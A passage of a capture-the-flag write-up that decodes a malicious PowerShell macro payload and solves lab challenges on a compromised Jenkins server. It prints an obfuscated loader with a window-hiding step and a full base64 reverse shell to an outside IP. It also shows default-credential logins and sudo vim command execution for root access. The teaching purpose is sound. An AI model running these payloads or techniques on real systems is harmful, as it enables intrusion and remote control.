MwByADQAJwArACcAXwAyAE4AMQAgAD0AIAAyAF8AZwBhACcAKwAnAGwAZgByACcAKwAnAGEAWgAnACgAKAAgACgAIAApACcAJwBuAGkATwBqAC0AJwB4ACcAKwBdADMALAAxAFsAKQAoAEcATgBpAHIAVABTAG8AdAAuAEUAYwBOAGUAcgBlAEYAZQBSAHAARQBzAE8AQgBSAEUAdgAkACAAKAAgAC4AIAAiACAAIAApACAAOwAtAGoATwBJAG4AIAAoACAAbABTACAAKAAiAFYAQQBSACIAKwAiAEkAYQBCACIAKwAiAEwARQA6AGcAIgArACIAOABIACIAKQAgACAAKQAuAFYAQQBMAHUAZQBbACAALQAgADEALgAuACAALQAgACgAIAAoACAAbABTACAAKAAiAFYAQQBSACIAKwAiAEkAYQBCACIAKwAiAEwARQA6AGcAIgArACIAOABIACIAKQAgACAAKQAuAFYAQQBMAHUAZQAuAEwAZQBuAGcAdABIACkAXQAgAHwAIABJAGUAWAANAAoAJABwAGEAeQBsAG8AYQBkACAAPQAgACIASgBBAEIAagBBAEcAdwBBAGEAUQBCAGwAQQBHADQAQQBkAEEAQQBnAEEARAAwAEEASQBBAEIATwBBAEcAVQBBAGQAdwBBAHQAQQBFADgAQQBZAGcAQgBxAEEARwBVAEEAWQB3AEIAMABBAEMAQQBBAFUAdwBCADUAQQBIAE0AQQBkAEEAQgBsAEEARwAwAEEATABnAEIATwBBAEcAVQBBAGQAQQBBAHUAQQBGAE0AQQBiAHcAQgBqAEEARwBzAEEAWgBRAEIAMABBAEgATQBBAEwAZwBCAFUAQQBFAE0AQQBVAEEAQgBEAEEARwB3AEEAYQBRAEIAbABBAEcANABBAGQAQQBBAG8AQQBDAEkAQQBNAFEAQQA1AEEARABJAEEATABnAEEAdwBBAEMANABBAE0AZwBBAHUAQQBEAEUAQQBNAHcAQQB5AEEAQwBJAEEATABBAEEAMABBAEQAUQBBAE0AdwBBAHAAQQBEAHMAQQBKAEEAQgB6AEEASABRAEEAYwBnAEIAbABBAEcARQBBAGIAUQBBAGcAQQBEADAAQQBJAEEAQQBrAEEARwBNAEEAYgBBAEIAcABBAEcAVQBBAGIAZwBCADAAQQBDADQAQQBSAHcAQgBsAEEASABRAEEAVQB3AEIAMABBAEgASQBBAFoAUQBCAGgAQQBHADAAQQBLAEEAQQBwAEEARABzAEEAVwB3AEIAaQBBAEgAawBBAGQAQQBCAGwAQQBGAHMAQQBYAFEAQgBkAEEAQwBRAEEAWQBnAEIANQBBAEgAUQBBAFoAUQBCAHoAQQBDAEEAQQBQAFEAQQBnAEEARABBAEEATABnAEEAdQBBAEQAWQBBAE4AUQBBADEAQQBEAE0AQQBOAFEAQgA4AEEAQwBVAEEAZQB3AEEAdwBBAEgAMABBAE8AdwBCADMAQQBHAGcAQQBhAFEAQgBzAEEARwBVAEEASwBBAEEAbwBBAEMAUQBBAGEAUQBBAGcAQQBEADAAQQBJAEEAQQBrAEEASABNAEEAZABBAEIAeQBBAEcAVQBBAFkAUQBCAHQAQQBDADQAQQBVAGcAQgBsAEEARwBFAEEAWgBBAEEAbwBBAEMAUQBBAFkAZwBCADUAQQBIAFEAQQBaAFEAQgB6AEEAQwB3AEEASQBBAEEAdwBBAEMAdwBBAEkAQQBBAGsAQQBHAEkAQQBlAFEAQgAwAEEARwBVAEEAYwB3AEEAdQBBAEUAdwBBAFoAUQBCAHUAQQBHAGMAQQBkAEEAQgBvAEEAQwBrAEEASwBRAEEAZwBBAEMAMABBAGIAZwBCAGwAQQBDAEEAQQBNAEEAQQBwAEEASABzAEEATwB3AEEAawBBAEcAUQBBAFkAUQBCADAAQQBHAEUAQQBJAEEAQQA5AEEAQwBBAEEASwBBAEIATwBBAEcAVQBBAGQAdwBBAHQAQQBFADgAQQBZAGcAQgBxAEEARwBVAEEAWQB3AEIAMABBAEMAQQBBAEwAUQBCAFUAQQBIAGsAQQBjAEEAQgBsAEEARQA0AEEAWQBRAEIAdABBAEcAVQBBAEkAQQBCAFQAQQBIAGsAQQBjAHcAQgAwAEEARwBVAEEAYgBRAEEAdQBBAEYAUQBBAFoAUQBCADQAQQBIAFEAQQBMAGcAQgBCAEEARgBNAEEAUQB3AEIASgBBAEUAawBBAFIAUQBCAHUAQQBHAE0AQQBiAHcAQgBrAEEARwBrAEEAYgBnAEIAbgBBAEMAawBBAEwAZwBCAEgAQQBHAFUAQQBkAEEAQgBUAEEASABRAEEAYwBnAEIAcABBAEcANABBAFoAdwBBAG8AQQBDAFEAQQBZAGcAQgA1AEEASABRAEEAWgBRAEIAegBBAEMAdwBBAE0AQQBBAHMAQQBDAEEAQQBKAEEAQgBwAEEAQwBrAEEATwB3AEEAawBBAEgATQBBAFoAUQBCAHUAQQBHAFEAQQBZAGcAQgBoAEEARwBNAEEAYQB3AEEAZwBBAEQAMABBAEkAQQBBAG8AQQBHAGsAQQBaAFEAQgA0AEEAQwBBAEEASgBBAEIAawBBAEcARQBBAGQAQQBCAGgAQQBDAEEAQQBNAGcAQQArAEEAQwBZAEEATQBRAEEAZwBBAEgAdwBBAEkAQQBCAFAAQQBIAFUAQQBkAEEAQQB0AEEARgBNAEEAZABBAEIAeQBBAEcAawBBAGIAZwBCAG4AQQBDAEEAQQBLAFEAQQA3AEEAQwBRAEEAYwB3AEIAbABBAEcANABBAFoAQQBCAGkAQQBHAEUAQQBZAHcAQgByAEEARABJAEEASQBBAEEAZwBBAEQAMABBAEkAQQBBAGsAQQBIAE0AQQBaAFEAQgB1AEEARwBRAEEAWQBnAEIAaABBAEcATQBBAGEAdwBBAGcAQQBDAHMAQQBJAEEAQQBpAEEARgBBAEEAVQB3AEEAZwBBAEMASQBBAEkAQQBBAHIAQQBDAEEAQQBLAEEAQgB3AEEASABjAEEAWgBBAEEAcABBAEMANABBAFUAQQBCAGgAQQBIAFEAQQBhAEEAQQBnAEEAQwBzAEEASQBBAEEAaQBBAEQANABBAEkAQQBBAGkAQQBEAHMAQQBKAEEAQgB6AEEARwBVAEEAYgBnAEIAawBBAEcASQBBAGUAUQBCADAAQQBHAFUAQQBJAEEAQQA5AEEAQwBBAEEASwBBAEIAYgBBAEgAUQBBAFoAUQBCADQAQQBIAFEAQQBMAGcAQgBsAEEARwA0AEEAWQB3AEIAdgBBAEcAUQBBAGEAUQBCAHUAQQBHAGMAQQBYAFEAQQA2AEEARABvAEEAUQBRAEIAVABBAEUATQBBAFMAUQBCAEoAQQBDAGsAQQBMAGcAQgBIAEEARwBVAEEAZABBAEIAQwBBAEgAawBBAGQAQQBCAGwAQQBIAE0AQQBLAEEAQQBrAEEASABNAEEAWgBRAEIAdQBBAEcAUQBBAFkAZwBCAGgAQQBHAE0AQQBhAHcAQQB5AEEAQwBrAEEATwB3AEEAawBBAEgATQBBAGQAQQBCAHkAQQBHAFUAQQBZAFEAQgB0AEEAQwA0AEEAVgB3AEIAeQBBAEcAawBBAGQAQQBCAGwAQQBDAGcAQQBKAEEAQgB6AEEARwBVAEEAYgBnAEIAawBBAEcASQBBAGUAUQBCADAAQQBHAFUAQQBMAEEAQQB3AEEAQwB3AEEASgBBAEIAegBBAEcAVQBBAGIAZwBCAGsAQQBHAEkAQQBlAFEAQgAwAEEARwBVAEEATABnAEIATQBBAEcAVQBBAGIAZwBCAG4AQQBIAFEAQQBhAEEAQQBwAEEARABzAEEASgBBAEIAegBBAEgAUQBBAGMAZwBCAGwAQQBHAEUAQQBiAFEAQQB1AEEARQBZAEEAYgBBAEIAMQBBAEgATQBBAGEAQQBBAG8AQQBDAGsAQQBmAFEAQQA3AEEAQwBRAEEAWQB3AEIAcwBBAEcAawBBAFoAUQBCAHUAQQBIAFEAQQBMAGcAQgBEAEEARwB3AEEAYgB3AEIAegBBAEcAVQBBAEsAQQBBAHAAQQBEAHMAQQAiAA0ACgAkAGMAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBuAGkAYwBvAGQAZQAuAEcAZQB0AFMAdAByAGkAbgBnACgAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACQAcABhAHkAbABvAGEAZAApACkADQAKAGkAZgAgACgAJABwAGEAeQBsAG8AYQBkACAALQBtAGEAdABjAGgAIAAiAGgAdAB0AHAAOgB8AGgAdAB0AHAAcwA6ACIAKQAgAHsADQAKACAAIAAgACAAJABwAGEAeQBsAG8AYQBkACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgACIATgBlAHQALgBXAGUAYgBjAGwAaQBlAG4AdAAiACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAkAHAAYQB5AGwAbwBhAGQAKQA7AA0ACgB9AA0ACgBpAGUAeAAgACQAYwA7AA==
```

We decode the base64 to find ourselves with:
```ps
$t = '[DllImport(\"user32.dll\")] public static extern bool ShowWindow(int handle, int state);';

add-type -name win -member $t -namespace native;[native.win]::ShowWindow(([System.Diagnostics.Process]::GetCurrentProcess() | Get-Process).MainWindowHandle, 0);

iex ( [StrinG]::join('', ([rEGeX]::MaTcheS( ") 'x'+]31[DIlLeHs$+]1[DiLLehs$ (&| )431[DIlLeHs$+]1[DiLLehs$ (&| )43]RAhc[]GnIRTs[,'tXj'(ecALPER.)'$','wqi'(eCALPER.)';tX'+'jsc0d_d3lb4n3_0rc4m'+'{g'+'a'+'lftXj '+'=1_ga'+'lfwqi'(",'.', 'R'+'iGHTtOl'+'eft' ) | forEAcH-oBJecT {$_.VALUE} )) );

SEt ("G8"+"h") ( " ) )63]Rahc[,'raZ'EcalPeR- 43]Rahc[,)05]Rahc[+87]Rahc[+94]Rahc[(  eCAlpERc-  )';2'+'N'+'1'+'}su0r3g'+'n4d_3r4'+'_2N1 = 2_ga'+'lfr'+'aZ'(( ( )''niOj-'x'+]3,1[)(GNirTSot.EcNereFeRpEsOBREv$ ( . "  ) ;-jOIn ( lS ("VAR"+"IaB"+"LE:g"+"8H")  ).VALue[ - 1.. - ( ( lS ("VAR"+"IaB"+"LE:g"+"8H")  ).VALue.LengtH)] | IeX

$payload = "JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAwAC4AMgAuADEAMwAyACIALAA0ADQAMwApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApADsA"

$c = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($payload))

if ($payload -match "http:|https:") {

    $payload = (New-Object "Net.Webclient").DownloadString($payload);

}

iex $c;
```

From the payload variable the script does not interest us, it is a client for remote access.

Let’s start with the first part:
```ps
iex ( [StrinG]::join('', ([rEGeX]::MaTcheS( ") 'x'+]31[DIlLeHs$+]1[DiLLehs$ (&| )431[DIlLeHs$+]1[DiLLehs$ (&| )43]RAhc[]GnIRTs[,'tXj'(ecALPER.)'$','wqi'(eCALPER.)';tX'+'jsc0d_d3lb4n3_0rc4m'+'{g'+'a'+'lftXj '+'=1_ga'+'lfwqi'(",'.', 'R'+'iGHTtOl'+'eft' ) | forEAcH-oBJecT {$_.VALUE} )) );
```

Instead of running it let's replace `iex` by `echo`:
```ps
echo ([StrinG]::join('', ([rEGeX]::MaTcheS( ") 'x'+]31[DIlLeHs$+]1[DiLLehs$ (&| )431[DIlLeHs$+]1[DiLLehs$ (&| )43]RAhc[]GnIRTs[,'tXj'(ecALPER.)'$','wqi'(eCALPER.)';tX'+'jsc0d_d3lb4n3_0rc4m'+'{g'+'a'+'lftXj '+'=1_ga'+'lfwqi'(",'.', 'R'+'iGHTtOl'+'eft' ) | forEAcH-oBJecT {$_.VALUE} )))
```
```ps
('iqwfl'+'ag_1='+' jXtfl'+'a'+'g{'+'m4cr0_3n4bl3d_d0csj'+'Xt;').REPLACe('iqw','$').REPLAce('jXt',[sTRInG][chAR]34) |&( $sheLLiD[1]+$sHeLlID[134) |&( $sheLLiD[1]+$sHeLlID[13]+'x' )
```

Let’s try to execute the first part:
```ps
('iqwfl'+'ag_1='+' jXtfl'+'a'+'g{'+'m4cr0_3n4bl3d_d0csj'+'Xt;').REPLACe('iqw','$').REPLAce('jXt',[sTRInG][chAR]34)
```
```ps
$flag_1= "flag{m4cr0_3n4bl3d_d0cs";
```

We can see that this first command allows us to find the first part of the flag in the variable `flag_1`.

We will therefore run the second command without breaking it down and see if the second part is in the variable `flag_2`.

```ps
SEt ("G8"+"h") ( " ) )63]Rahc[,'raZ'EcalPeR- 43]Rahc[,)05]Rahc[+87]Rahc[+94]Rahc[(  eCAlpERc-  )';2'+'N'+'1'+'}su0r3g'+'n4d_3r4'+'_2N1 = 2_ga'+'lfr'+'aZ'(( ( )''niOj-'x'+]3,1[)(GNirTSot.EcNereFeRpEsOBREv$ ( . "  ) ;-jOIn ( lS ("VAR"+"IaB"+"LE:g"+"8H")  ).VALue[ - 1.. - ( ( lS ("VAR"+"IaB"+"LE:g"+"8H")  ).VALue.LengtH)] | IeX
```

```ps
echo $flag_2
```

```
_4r3_d4ng3r0us}
```

Well, we found our by concatenating the two parts.

Done! We have our flag "`flag{m4cr0_3n4bl3d_d0cs_4r3_d4ng3r0us}`"

## Locked outside

**Challenge**

Based on the payload discovered, the employee’s computer was used to compromise a machine in our network.

We checked the machine and confirmed that we’ve lost SSH access to it.

Can you check if we can get the access back?

Flag format: flag{string}

[lockedout.ova](lockedout.ova)

**Solution**

First thing to do is check the open ports with nmap: `nmap -a [IP]`



Let’s start with the open ftp: `ftp [IP]`

There is a file named `note.txt` and its content is:
```
# Jenkins Development Server
# This is a development server
# default credentials - ssh
# username: root
# password: alpine_r00t
```

We now know how ssh was hacked and we also learn that the web server on port 8080 is a Jenkins environment. Let’s go on it! `http://[IP]:8080/`

We arrive on a login platform, not knowing what to put I put `admin` in username and password and it worked lol.



On this page let’s create a new free-style job.

In the build we will run a shell script.

We could do a revshell but the challenge asks us to check ssh so let’s go straight to the point we’ll cat the ssh config file: `cat /etc/ssh/sshd_config`.

Let’s launch a build. Let’s go to the Console Output, we have the content of the configuration and we find our flag.



Done! We have our flag "`flag{r00t_l0gin_1s_1ns3cur3}`"

## Something Suspicious

**Challenge**

We have detected a strange activity inside our network and manage to get some logs from it.

Can you see what happened and if there was a host compromised?

Flag format: flag{string}

[ftp.log](ftp.log) [ssh.log](ssh.log)

**Solution**

Line 84 of the ftp log contains a strange password, indeed it is a string encoded in base64! `ZmxhZ3tzMG0zdGgxbmc=`

Once decoded we get the first part of the flag: `flag{s0m3th1ng`

Line 258 of the ssh log contains a strange username, indeed it is another string encoded in base64! `X3N1c3AxYzEwdXN9`

Once decoded we get the second part of the flag: `_susp1c10us}`

Done! We have our flag "`flag{s0m3th1ng_susp1c10us}`"

## Changing our locks and dumping old keys

**Challenge**

There should be something in the server that was used to maintain persistence.

Can you track this one and find more information about the attacker?

Flag format: flag{string}

**Solution**

We need to go back to Jenkins found in [The lost Jetson](#the-lost-jetson) (or a reverse shell but groovy didn't work for me huh). 

I wanted to look at the `/root` folder to see if there was anything interesting however I lacked permission, so we have to start with `sudo -l` to see what we have access to as root:

```
User jenkins may run the following commands on lockedout:
    (root) NOPASSWD: /usr/bin/vim
```

We have access to vim as root and it does well vim has an argument `-c` that allows us to execute commands including the one I wanted to run `ls -la/root`:

 `sudo /usr/bin/vim -c ':!ls /root'`
 ```ls
 total 28
drwx------    3 root     root          4096 Jul 13 16:52 .
drwxr-xr-x   22 root     root          4096 Jun 21 17:36 ..
lrwxrwxrwx    1 root     root             9 Jun 24 15:37 .ash_history -> /dev/null
-rw-------    1 root     root           684 Jun  9 10:20 .joe_state
drwx------    2 root     root          4096 Jun 24 15:37 .ssh
-rw-------    1 root     root         10774 Jul 13 16:52 .viminfo
```

There’s a big file called `.viminfo`, let’s see what’s inside:

`sudo /usr/bin/vim -c ':!cat /root/.viminfo'`
```
# This viminfo file was generated by Vim 8.2.
# You may edit it if you're careful!

# Viminfo version
|1,4

# Value of 'encoding' when this file was written
*encoding=utf-8


# hlsearch on (H) or off (h):
~h
# Command Line History (newest to oldest):
:wq!
|2,0,1626191548,,"wq!"
:wq
|2,0,1626191547,,"wq"
:q
|2,0,1624607933,,"q"
:q!
|2,0,1624527558,,"q!"
:w
|2,0,1624464230,,"w"

# Search String History (newest to oldest):

# Expression History (newest to oldest):

# Input Line History (newest to oldest):

# Debug Line History (newest to oldest):

# Registers:
"0	LINE	0
	            ssls.send(str.encode("flag{b4ckd00rs_4r3_us3full_f0r_p3rs1st3nc3}"))
|3,0,0,1,1,0,1624456492,"            ssls.send(str.encode(\"flag{b4ckd00rs_4r3_us3full_f0r_p3rs1st3nc3}\"))"
""1	LINE	0
	192.168.1.19	m1cr0s0ft.hax
|3,1,1,1,1,0,1624607936,"192.168.1.19	m1cr0s0ft.hax"
"2	LINE	0
	192.168.230.217 c2.m1cr0s0ft.hax
|3,0,2,1,1,0,1624547030,"192.168.230.217 c2.m1cr0s0ft.hax"
"3	LINE	0
	[2001:db8:a:1:5054:ff:fecb:1279]:2200 ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIYbW+R6HY40Hu6KqnZrDfnsI78rqrbvyMyROXg0C/nbswup/wEHWU3Fb2vrBbaslk9K4umHWQfG2FpJZ6FBc2A=
|3,0,3,1,1,0,1624545452,"[2001:db8:a:1:5054:ff:fecb:1279]:2200 ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIYbW+R6HY40Hu6KqnZrDfnsI78rqrbvyMyROXg0C/nbswup/wEHWU3Fb2vrBbaslk9K4umHWQfG2FpJZ6FBc2A="
"4	LINE	0
	192.168.202.254 ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIYbW+R6HY40Hu6KqnZrDfnsI78rqrbvyMyROXg0C/nbswup/wEHWU3Fb2vrBbaslk9K4umHWQfG2FpJZ6FBc2A=
|3,0,4,1,1,0,1624545451,"192.168.202.254 ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIYbW+R6HY40Hu6KqnZrDfnsI78rqrbvyMyROXg0C/nbswup/wEHWU3Fb2vrBbaslk9K4umHWQfG2FpJZ6FBc2A="
"5	LINE	0
	            ssls.send(str.encode("flag{b4ckd00rs_4r3_us3full_f0r_p3rs1st3nc3}\n"))
|3,0,5,1,1,0,1624461616,"            ssls.send(str.encode(\"flag{b4ckd00rs_4r3_us3full_f0r_p3rs1st3nc3}\\n\"))"
"6	LINE	0
	            ssls.send(str.encode("flag{b4ckd00rs_4r3_us3full_f0r_p3rs1st3nc3}"))
|3,0,6,1,1,0,1624456493,"            ssls.send(str.encode(\"flag{b4ckd00rs_4r3_us3full_f0r_p3rs1st3nc3}\"))"
"7	LINE	0
		int s;
|3,0,7,1,1,0,1624439172,"	int s;"
"8	LINE	0
		struct sockaddr_in sa;
|3,0,8,1,1,0,1624439172,"	struct sockaddr_in sa;"
"9	LINE	0
	#define REMOTE_PORT 23456
|3,0,9,1,1,0,1624439167,"#define REMOTE_PORT 23456"
"-	CHAR	0
	b
|3,0,36,0,1,0,1624546107,"b"

# File marks:
'0  80  20  /etc/sudoers
|4,48,80,20,1626191548,"/etc/sudoers"
'1  2  0  /etc/hosts
|4,49,2,0,1624607938,"/etc/hosts"
'2  1  0  /etc/host
|4,50,1,0,1624607933,"/etc/host"
'3  3  12  /etc/hosts
|4,51,3,12,1624607919,"/etc/hosts"
'4  3  12  /etc/hosts
|4,52,3,12,1624607919,"/etc/hosts"
'5  3  28  /etc/hosts
|4,53,3,28,1624607893,"/etc/hosts"
'6  3  28  /etc/hosts
|4,54,3,28,1624607893,"/etc/hosts"
'7  3  14  /etc/hosts
|4,55,3,14,1624607842,"/etc/hosts"
'8  3  14  /etc/hosts
|4,56,3,14,1624607842,"/etc/hosts"
'9  3  14  /etc/hosts
|4,57,3,14,1624607842,"/etc/hosts"

# Jumplist (newest first):
-'  80  20  /etc/sudoers
|4,39,80,20,1626191548,"/etc/sudoers"
-'  2  0  /etc/hosts
|4,39,2,0,1624607938,"/etc/hosts"
-'  2  0  /etc/hosts
|4,39,2,0,1624607938,"/etc/hosts"
-'  3  12  /etc/hosts
|4,39,3,12,1624607935,"/etc/hosts"
-'  3  12  /etc/hosts
|4,39,3,12,1624607935,"/etc/hosts"
-'  1  0  /etc/host
|4,39,1,0,1624607933,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624607933,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624607933,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624607933,"/etc/host"
-'  3  12  /etc/hosts
|4,39,3,12,1624607919,"/etc/hosts"
-'  3  12  /etc/hosts
|4,39,3,12,1624607919,"/etc/hosts"
-'  3  12  /etc/hosts
|4,39,3,12,1624607919,"/etc/hosts"
-'  3  12  /etc/hosts
|4,39,3,12,1624607919,"/etc/hosts"
-'  3  28  /etc/hosts
|4,39,3,28,1624607893,"/etc/hosts"
-'  3  28  /etc/hosts
|4,39,3,28,1624607893,"/etc/hosts"
-'  3  28  /etc/hosts
|4,39,3,28,1624607893,"/etc/hosts"
-'  3  28  /etc/hosts
|4,39,3,28,1624607893,"/etc/hosts"
-'  3  14  /etc/hosts
|4,39,3,14,1624607842,"/etc/hosts"
-'  3  14  /etc/hosts
|4,39,3,14,1624607842,"/etc/hosts"
-'  3  14  /etc/hosts
|4,39,3,14,1624607842,"/etc/hosts"
-'  3  14  /etc/hosts
|4,39,3,14,1624607842,"/etc/hosts"
-'  2  0  /etc/hosts
|4,39,2,0,1624607798,"/etc/hosts"
-'  2  0  /etc/hosts
|4,39,2,0,1624607798,"/etc/hosts"
-'  2  0  /etc/hosts
|4,39,2,0,1624607798,"/etc/hosts"
-'  2  0  /etc/hosts
|4,39,2,0,1624607798,"/etc/hosts"
-'  2  0  /etc/hosts
|4,39,2,0,1624607798,"/etc/hosts"
-'  2  0  /etc/hosts
|4,39,2,0,1624607798,"/etc/hosts"
-'  2  0  /etc/hosts
|4,39,2,0,1624607798,"/etc/hosts"
-'  2  0  /etc/hosts
|4,39,2,0,1624607798,"/etc/hosts"
-'  2  0  /etc/hosts
|4,39,2,0,1624607798,"/etc/hosts"
-'  2  0  /etc/hosts
|4,39,2,0,1624607798,"/etc/hosts"
-'  2  0  /etc/hosts
|4,39,2,0,1624607798,"/etc/hosts"
-'  2  0  /etc/hosts
|4,39,2,0,1624607798,"/etc/hosts"
-'  2  0  /etc/hosts
|4,39,2,0,1624547032,"/etc/hosts"
-'  2  0  /etc/hosts
|4,39,2,0,1624547032,"/etc/hosts"
-'  2  0  /etc/hosts
|4,39,2,0,1624547032,"/etc/hosts"
-'  2  0  /etc/hosts
|4,39,2,0,1624547032,"/etc/hosts"
-'  3  27  /etc/hosts
|4,39,3,27,1624547028,"/etc/hosts"
-'  3  27  /etc/hosts
|4,39,3,27,1624547028,"/etc/hosts"
-'  3  27  /etc/hosts
|4,39,3,27,1624547028,"/etc/hosts"
-'  3  27  /etc/hosts
|4,39,3,27,1624547028,"/etc/hosts"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"
-'  1  0  /etc/host
|4,39,1,0,1624547026,"/etc/host"

# History of marks within files (newest to oldest):

> /etc/sudoers
	*	1626191547	0
	"	80	20
	^	80	21
	.	80	20
